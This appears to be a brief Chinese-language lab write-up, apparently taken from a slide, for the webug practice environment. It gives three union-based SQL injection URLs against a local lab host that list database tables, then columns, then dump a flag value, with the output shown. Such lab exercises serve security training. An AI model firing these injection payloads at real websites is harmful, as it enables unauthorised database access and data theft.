

# Less-01_显错注入_02
1. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1‘ union select 1,group_concat(table_name) from information_schema.tables where table_schema=’webug‘ --+ 查询webug库下的所有表：==》data_crud,env_list,env_path,flag,sqlinjection,user,user_test
2. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1‘ union select 1,group_concat(column_name) from information_schema.columns where table_name=’flag‘ --+ 查看flag表中的列  ==》id,flag
3. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1‘ union select 1,flag from webug.flag --+ 查询flag的字段值==》dfafdasfafdsadfa